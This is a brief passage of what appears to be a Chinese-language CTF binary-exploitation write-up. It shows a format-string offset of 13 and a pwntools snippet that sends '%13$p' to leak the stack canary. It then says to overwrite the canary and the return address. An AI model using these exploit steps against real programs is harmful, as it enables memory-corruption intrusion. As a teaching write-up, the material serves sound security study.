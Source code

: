 [![](assets/1706146504-7f1a0b22f0cc40ff4b474e2483e6769a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121233836-24561a22-b873-1.png)  
找到偏移了，偏移为 13

```plain
sl('%13$p')
canary=int(r(18),16)
leak('canary ',canary)
```

这里格式化字符串接收不需要 u64 解包

[![](assets/1706146504-f07c1f1bf8b555d2dbd552ff6e0db587.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121233855-2f679864-b873-1.png)  
覆盖 canary 然后再覆盖返回地址就行

